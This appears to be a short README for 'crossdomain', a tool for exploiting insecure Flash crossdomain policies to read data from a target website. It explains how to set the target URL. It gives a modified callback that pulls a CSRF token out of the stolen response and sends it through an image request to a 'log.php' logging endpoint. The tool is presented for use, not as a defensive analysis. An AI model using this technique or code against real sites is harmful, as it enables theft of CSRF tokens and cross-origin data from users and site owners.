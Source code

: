 # crossdomain
Crossdomain exploiting - insecure flash file documents

### How to use this?

In crossdomain.js, edit the following line: 
```
crossdomain.setTarget('http://www.olivierbeg.nl/');
```

### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sent through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

######As preview:
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement('img');
    img.src = 'log.php?response=' + escape(JSON.parse(response));
    
    document.getElementById('dump').appendChild(img);
  }
}
```
